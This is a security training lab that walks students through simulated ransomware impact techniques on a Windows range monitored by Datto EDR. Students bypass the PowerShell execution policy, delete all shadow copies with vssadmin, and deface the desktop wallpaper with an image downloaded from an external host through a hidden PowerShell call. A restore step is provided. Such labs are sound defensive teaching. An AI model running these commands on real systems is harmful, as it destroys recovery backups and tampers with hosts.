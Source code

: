 ```yaml
---
title: ATT&CK - Impact Phase
description: Introduce post-compromise attack behaviors and EDR defenses
author: Chris Gerritz, Datto
created: 02/19/2023
achievements:
duration: 10
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- LibreOffice
- Gimp
external:
- attack.mitre.org
- rightofboom.infocyte.com
- infocyte-support.s3.us-east-2.amazonaws.com/extension-utilities/wallpaper.jpg
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

The Impact phase of an attack consists of techniques that adversaries use to disrupt availability or compromise integrity by manipulating business and operational processes. Techniques used for impact can include destroying or tampering with data. 

In order for a ransom to be effective, skilled attackers often wait till they have total control of a network and pre-stage their ransomware on every system so that it can be initiated all at once on every system with security tooling and backup software disabled.


## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs 
-->
1. Understand the Impact phase of an attack
2. Demonstrate some system changes common during this phase
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
	```

## Instructions
For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 

### 1. Inhibit System Recovery
> *Ransomware's purpose is to restrict access to data by encrypting it till the victim pays the ransom. Inhibiting the ability to restore from backup is essential to making sure the attacker achieves this objective.*
>
> *The method we'll demonstrate today is common in all ransomware attacks: deleting the shadowcopy backups.  The shadowcopy, when enabled, stores copies of any files modified and is the basis for some ransomware rollback software.*

Delete the shadow copy backups to perform **Inhibit System Recovery** technique
- MITRE ATT&CK Technique: [ATT&CK T1490 - Impact - Inhibit System Recovery](https://attack.mitre.org/techniques/T1490)
- Copy and paste this command into the terminal:
	```PowerShell
	# Shadow Copy Deletion
	Write-Host -ForegroundColor Cyan "Initiating technique T1490 - Inhibit System Recovery"
	vssadmin.exe delete shadows /All /quiet 2>&1
	```

### 2. Wallpaper Defacement
> *An adversary may deface systems internal to an organization in an attempt to intimidate or mislead users, thus discrediting the integrity of the systems. This may take the form of modifications to internal websites, or directly to user systems with the replacement of the desktop wallpaper. In ransomware, the wallpaper will be changed to give the user instructions and make their demands*

Execute a **Wallpaper Defacement** by changing the background to a ransomware message. 
- MITRE ATT&CK Technique: [ATT&CK T1491 - Impact - Defacement: Internal Defacement](https://attack.mitre.org/techniques/T1491)
- Copy and paste this command into the terminal:
	```PowerShell
	# Wallpaper Defacement
	Write-Host -ForegroundColor Cyan "Initiating technique T1491 - Defacement: Internal Defacement"
	$wallpaperURL = "https://infocyte-support.s3.us-east-2.amazonaws.com/extension-utilities/wallpaper.jpg"
	$wallpaperPath = "$env:temp\wallpaper.jpg"
	Invoke-WebRequest $wallpaperURL -OutFile $wallpaperPath
	$oldwallpaperPath = Get-ItemProperty "HKCU:\Control Panel\Desktop" | select WallPaper -ExpandProperty wallpaper
	#Apply
	$cmd = @"
		New-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name WallpaperStyle -PropertyType String -Value 6 -Force
		New-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name TileWallpaper -PropertyType String -Value 0 -Force
		Add-Type -TypeDefinition @' 
		using System; 
		using System.Runtime.InteropServices;
		
		public class Params
		{ 
			[DllImport("User32.dll",CharSet=CharSet.Unicode)] 
			public static extern int SystemParametersInfo (Int32 uAction, 
														Int32 uParam, 
														String lpvParam, 
														Int32 fuWinIni);
		}
		'@ 
	
		`$SPI_SETDESKWALLPAPER = 0x0014
		`$UpdateIniFile = 0x01
		`$SendChangeEvent = 0x02
		`$fWinIni = `$UpdateIniFile -bor `$SendChangeEvent

		`$ret = [Params]::SystemParametersInfo(`$SPI_SETDESKWALLPAPER, 0, '$wallpaperPath', `$fWinIni)
	"@
	powershell.exe -nop -command $cmd
	```
- [Optional] Restore:
	```Powershell
	# Restore
	$cmd = @"
		New-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name WallpaperStyle -PropertyType String -Value 6 -Force
		New-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name TileWallpaper -PropertyType String -Value 0 -Force
		Add-Type -TypeDefinition @' 
		using System; 
		using System.Runtime.InteropServices;
		
		public class Params
		{ 
			[DllImport("User32.dll",CharSet=CharSet.Unicode)] 
			public static extern int SystemParametersInfo (Int32 uAction, 
														Int32 uParam, 
														String lpvParam, 
														Int32 fuWinIni);
		}
		'@ 
	
		`$SPI_SETDESKWALLPAPER = 0x0014
		`$UpdateIniFile = 0x01
		`$SendChangeEvent = 0x02
		`$fWinIni = `$UpdateIniFile -bor `$SendChangeEvent

		`$ret = [Params]::SystemParametersInfo(`$SPI_SETDESKWALLPAPER, 0, '$oldwallpaperPath', `$fWinIni)
	"@
	powershell.exe -nop -command $cmd
```